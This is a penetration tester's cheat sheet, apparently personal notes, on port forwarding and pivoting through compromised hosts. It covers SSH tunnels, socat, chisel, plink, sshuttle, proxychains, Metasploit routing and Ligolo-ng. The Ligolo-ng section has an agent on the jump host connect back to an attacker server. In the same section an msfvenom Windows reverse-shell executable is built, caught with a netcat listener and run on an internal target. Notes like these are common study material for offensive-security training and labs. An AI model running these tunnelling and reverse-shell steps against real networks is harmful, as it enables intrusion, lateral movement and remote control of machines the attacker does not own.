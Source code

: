 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward
```
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```
./chisel server -p <LISTEN_PORT> --reverse &
```

-> Compromised Host
```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT>
```

-> Your Machine  
```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward
```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```
./chisel server -p LISTEN_PORT --reverse &
```
-> Compromised Host  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT> --socks5
```
-> Your Machine  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 
```
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

### Ligolo-ng
```
sudo ip tuntap add user kali mode tun ligolo # Run this first to create a new tun interface for ligolo

ip route list # list routes

sudo ip link set ligolo up # turn on ligolo interface

./proxy -selfcert -laddr 0.0.0.0:443 # Run this on kali attacking machine to start the C2/proxy server

# On Jump host run 

./agent.exe -connect attacker_server:443 -ignore-cert

# After successfull connection is confirmed add route to the target network to kali's routing table

sudo ip route add <Internal_Network> dev ligolo

# then start a tunnel in ligolo using
start

#Nmap scanning thru ligolo
sudo nmap <Internal_Network_IP> -p- -sV -T3 -PE

#Sending reverse shell's back thru ligolo
So if we find ourselves in a situation where we have a pivot setup to the internal network, but the internal machine cant send back a shell to our attack box, we can use ligolo's TCP listeners to get our shell back on our kali box!

# On the Ligolo proxy setup a listener
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:9001 # This will make it so that any connections sent to port 1234 on our agent back to our kali box on 9001, using this for reverse shell.
listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:80 # This will make it so that any connections sent to port 8000 on our agent back to our kali box on 80, using this for transfer tools.

# so if we need to get a shell back thru our pivot we would make a new payload that sends a shell to the Agent box on port 1234
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o revshell-1234.exe LHOST=client01-IP LPORT=1234

#Set a netcat Listener on our Kali Linux
nc -lvnp 9001

# Now on the target/internal machine we want a shell on just run the revshell-1234.exe file and we get a shell!
.\revshell-1234.exe
```
